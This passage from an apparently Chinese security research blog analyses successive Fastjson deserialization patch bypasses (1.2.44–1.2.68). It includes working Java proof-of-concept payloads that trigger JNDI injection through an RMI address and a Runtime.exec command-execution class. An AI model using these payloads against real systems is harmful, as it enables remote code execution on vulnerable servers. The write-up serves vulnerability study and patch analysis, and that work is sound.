这次修复主要是针对性的进行了判断，这样我们之前的利用链普通的绕过已经被很好地限制了，这时候就需要找新的利用链或者利用方式

com.alibaba.fastjson.parser.ParserConfig#checkAutoType(java.lang.String, java.lang.Class<?>, int)


#### 补丁绕过

这次绕过其实是利用其他组件进行绕过，因为之前的补丁已经很好地把我们的利用链限制了。MyBatis是一款优秀的持久层框架，它支持自定义SQL、存储过程以及高级映射。该框架目前已经是数据层通用解决方案，应用范围广，所以影响还是比较大的。该绕过需要目标使用该框架。

POC：

```java
public class fastjson1_2_44 {
    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String Poc = "{\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\",\"properties\":{\"data_source\":\"rmi://127.0.01:1099/Exploit\"}}";
        JSON.parse(Poc);
    }
}
```

本次绕过主要还是利用fastjson自省特性，传入`properties`，会调用ibatis框架中的`setProperties`,最后进入`initCtx.lookup`

org.apache.ibatis.datasource.jndi.JndiDataSourceFactory#setProperties


下一步获得我们的地址，后面就是JNDI注入的正常流程

javax.naming.InitialContext#lookup(java.lang.String)


命令执行成功


### Fastjson1.2.46-1.2.47绕过

官方在1.2.46的补丁中修复了使用组件Mybatis的绕过，修复方式为将`org.apache.ibatis.datasource`的hash加入黑名单

#### 补丁分析

com.alibaba.fastjson.parser.ParserConfig#checkAutoType(java.lang.String, java.lang.Class<?>, int)


新增hash在之前提到的项目中如下：


#### 补丁绕过

新的绕过主要是通过`checkAutoType`的缺陷，通过将恶意类添加到`mappings`中的方式绕过黑名单，对比之前的利用方式，该方式不需要开启`autoTypeSupport`选项，所以危害更大。

测试用payload

该payload可以看做两部分，第一部分是绕过关键，第二部分其实就是正常的JNDI注入，主要分析第一部分

```java
    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        String Poc = "{\n" +
                "    \"a\": {\n" +
                "        \"@type\": \"java.lang.Class\", \n" +
                "        \"val\": \"com.sun.rowset.JdbcRowSetImpl\"\n" +
                "    }, \n" +
                "    \"b\": {\n" +
                "        \"@type\": \"com.sun.rowset.JdbcRowSetImpl\", \n" +
                "        \"dataSourceName\": \"rmi://127.0.0.1:1099/Exploit\", \n" +
                "        \"autoCommit\": true\n" +
                "    }\n" +
                "}";
        JSON.parse(Poc);
    }
```

##### 不开启autoTypeSupport选项

经过词法分析，解析出`java.lang.Class`后进入`MiscCodec`

com.alibaba.fastjson.parser.DefaultJSONParser#parseObject(java.util.Map, java.lang.Object)


进入`MiscCodec`后，再次进行词法解析

词法解析会定位到第二个类前


这时候就读取出第二个类，我们希望执行的恶意类

com.alibaba.fastjson.serializer.MiscCodec#deserialze


com.alibaba.fastjson.serializer.MiscCodec#deserialze


进入TypeUtils.loadClass

com.alibaba.fastjson.util.TypeUtils#loadClass(java.lang.String, java.lang.ClassLoader)


 注意这里`cache`为`true`，继续向下

com.alibaba.fastjson.util.TypeUtils#loadClass(java.lang.String, java.lang.ClassLoader, boolean)


判断`chche`为`true`，然后将恶意类存入`mappings`中，这时候第一阶段解析结束，进入第二阶段

com.alibaba.fastjson.parser.ParserConfig#checkAutoType(java.lang.String, java.lang.Class<?>, int)

注意这里`autoTypeSupport`默认为`false`，所以跳过这次条件判断，直接向下


从缓存中获取我们需要加载的恶意类，继续向下


返回我们的恶意类，同时绕过了黑名单，后续就是正常的JNDI注入，成功执行命令


##### 开启autoTypeSupport属性

如果开启autopTypeSupport属性，其实第一阶段都一样，重点是第二阶段，这里会进入之前跳过的条件判断

com.alibaba.fastjson.parser.ParserConfig#checkAutoType(java.lang.String, java.lang.Class<?>, int)


经过分析，需要抛出异常需要满足两个条件：

1. 类在黑名单中
2. 缓存中不存在任何类

很明显，我们的恶意类在`mappings`中，所以第一个条件不满足，同时第二个也不满足，所以不会抛出异常，之后继续向下就是之前分析内容了。


### Fastjson1.2.48-1.2.66绕过

在1.2.48-1.2.66中，除了java.lang.Class直接加入黑名单以外，还陆陆续续增加了很多组件黑名单。

#### 补丁分析

关键逻辑进行了修改，无论是否从mappings中获取类，都需要进行黑名单校验。

这里只截取1.2.48部分，其余部分可以去github看


##### 不开启autoTypeSupport选项

不开启的话就从第二部分，从`mappings`中获取`com.sun.rowset.JdbcRowSetImpl`后进行黑名单校验

com.alibaba.fastjson.parser.ParserConfig#checkAutoType(java.lang.String, java.lang.Class<?>, int)


##### 开启autoTypeSupport属性

同样也触发黑名单，只不过这次是第一阶段`java.lang.Class`触发，抛出异常


#### 补丁绕过

本地测试Payload

```java
    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String Poc = "{\"@type\":\"org.apache.xbean.propertyeditor.JndiConverter\",\"AsText\":\"rmi://127.0.0.1:1099/Exploit\"}";
        JSON.parse(Poc);
    }
```

根据补丁，其实这次是利用组件进行绕过。前提条件是必须开始`autoTypeSupport`。这次分析利用`Xbean-Reflect`利用链。

如果不开启`autoTypeSupport`，那么会直接抛出异常，不支持自定义类的反序列化。

com.alibaba.fastjson.parser.ParserConfig#checkAutoType(java.lang.String, java.lang.Class<?>, int)


那么开启后，经过分析，根据Fastjson自省的特性，传入`AsText`，调用`xbean-reflect`中`setAsText`

org.apache.xbean.propertyeditor.AbstractConverter#setAsText


继续向下

org.apache.xbean.propertyeditor.AbstractConverter#toObject


进入`toObjectImpl`，标准的JNDI注入

org.apache.xbean.propertyeditor.JndiConverter#toObjectImpl


成功执行命令



### Fastjson1.2.67-1.2.68绕过

对于三方利用链，陆续增加黑名单。具体可以查看相关项目

#### 补丁分析

除了增加了攻击链的黑名单，还增加了`Safe_mode`，开启后不支持`@type`自省

```java
ParserConfig.getGlobalInstance().setSafeMode(true);
```

com.alibaba.fastjson.parser.ParserConfig#checkAutoType(java.lang.String, java.lang.Class<?>, int)




#### 补丁绕过

这部分其实很大程度上是利用了Fastjson为了实现基础类的任意反序列化的特点，代码逻辑上，很大程度校验autoTypeSupport的逻辑靠后,导致即使我们不开启autoTypeSupport，后续也能绕过。

本地测试利用链

```java
package payload1_2_68;

import java.io.IOException;

public class EvilDemo implements AutoCloseable{

    public EvilDemo(){

    }

    private String cmd;

    public void setCmd(String cmd) throws IOException {
        this.cmd = cmd;
        Runtime.getRuntime().exec(cmd);
    }

    public String getCmd() {
        return cmd;
    }

    public void close() throws Exception {

    }
}
```

测试Demo

```java
package payload1_2_68;

import com.alibaba.fastjson.JSON;

public class fastjson1_2_68 {
    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        String Poc = "{\"@type\":\"java.lang.AutoCloseable\",\"@type\":\"payload1_2_68.EvilDemo\",\"cmd\":\"open -a Calculator\"}";
        JSON.parse(Poc);
    }
}
```

首先还是定位到`checkAutoType`,跟踪发现这里会对词法解析出来的`java.lang.AutoCloseable`进行一个判断

com.alibaba.fastjson.parser.ParserConfig#checkAutoType(java.lang.String, java.lang.Class<?>, int)


这里可以简单地理解为我们的类不能在下面的类中

```java
Object.class
Serializable.class
Cloneable.class
Closeable.class
EventListener.class
Iterable.class
Collection.class
```

之后向下，会有一个关键性的判断

这里的逻辑其实就是判断当前我们的类是否在（白名单中)&&(是否开启autoTypeSupport选项）|| 我们的类是否在不支持的期望类中)：基本可以理解为白名单中直接加载，黑名单直接抛出异常。


继续向下，会从如下的方法中获取类


首先进入`TypeUtils.getClassFromMapping(typeName)`尝试获取类

com.alibaba.fastjson.util.TypeUtils#getClassFromMapping


这里mappings中其实已经设置了一些类的

com.alibaba.fastjson.util.TypeUtils#addBaseClassMappings


**在这里其实我们的测试利用链已经返回了对应的类，但是并没有校验autoTypeSupport选项!**


com.alibaba.fastjson.parser.DefaultJSONParser#parseObject(java.util.Map, java.lang.Object)


之后跟进，进入`JavaBeanDeserializer`进行反序列化操作


再次进入`checkAutoType`

经过之前分析过得判断，这次期望类是`java.lang.AutoCloseable`，设置`expectClassFlag`为`true`

com.alibaba.fastjson.parser.ParserConfig#checkAutoType(java.lang.String, java.lang.Class<?>, int)


这次要经过黑名单校验，不过很明显，我们设置的利用链是我们测试自定义的，很明显不在黑名单中

com.alibaba.fastjson.parser.ParserConfig#checkAutoType(java.lang.String, java.lang.Class<?>, int)


继续向下


返回我们定义的恶意类，根据Fastjson自省的特性，加载bean，执行恶意命令


### Fastjson1.2.69补丁

#### 补丁分析

加黑名单完事


### 后续

整个Fastjson的绕过和修复的过程十分精彩，值得深入学习思考。

又出了个Fastjson和其他json库一起使用的SSRF漏洞，整体执行利用并不难分析，浅蓝师傅的文章很全了，我就不凑热闹了~~（其实是懒）~~。[fastjson 1.2.76 和其他JSON库使用不当可能造成漏洞](https://mp.weixin.qq.com/s/jAMLZnDQZ7EGM5Ds5uVn5Q)。

安全研究人员立足于开发的角度，去推断合理的使用场景，并针对性进行挖掘以及漏洞利用。这点是我个人觉得十分值得学习的。同时本人在日常代码审计中也发现了浅蓝师傅说的情况，就是多种json库共用的问题。作为企业SDL来说，代码规范性以及开发人员的素质，还有开发库的选择，都是值得思考的问题。


参考:

[浅谈下Fastjson的autotype绕过 - Kingkk's Blog](https://www.kingkk.com/2020/06/浅谈下Fastjson的autotype绕过/)

[GitHub - threedr3am/learnjavabug: Java安全相关的漏洞和技术demo，原生Java、Fastjson、Jackson、Hessian2、XML反序列化漏洞利用和Spring、Dubbo、Shiro、CAS、Tomcat、RMI、Nexus等框架\中间件\功能的exploits以及Java Security Manager绕过、Dubbo-Hessian2安全加固等等实践代码。](https://github.com/threedr3am/learnjavabug)

[Java反序列化过程中 RMI JRMP 以及JNDI多种利用方式详解](https://www.anquanke.com/post/id/224871)

[FastJson安全入门&反序列化漏洞回顾分析](http://www.rai4over.cn/2020/FastJson%E5%AE%89%E5%85%A8%E5%85%A5%E9%97%A8-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%9B%9E%E9%A1%BE%E5%88%86%E6%9E%90/)

[GitHub - mai-lang-chai/Middleware-Vulnerability-detection: CVE、CMS、中间件漏洞检测利用合集 Since 2019-9-15](https://github.com/mai-lang-chai/Middleware-Vulnerability-detection)

[JAVA反序列化—FastJson组件 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/7027#toc-13)


